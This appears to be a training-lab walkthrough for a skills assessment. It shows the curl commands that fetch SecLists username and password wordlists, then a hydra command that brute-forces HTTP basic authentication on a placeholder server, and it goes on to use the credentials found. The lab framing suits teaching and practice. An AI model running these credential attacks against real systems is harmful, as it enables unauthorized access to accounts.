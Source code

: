 # Skills Assessment Part 1

### What is the password for the basic auth login?

**Step 1** - Download the wordlists:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Brute-force the login basic authentication:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT      
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

**Step 1** - Use the founded credentials on the login form:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
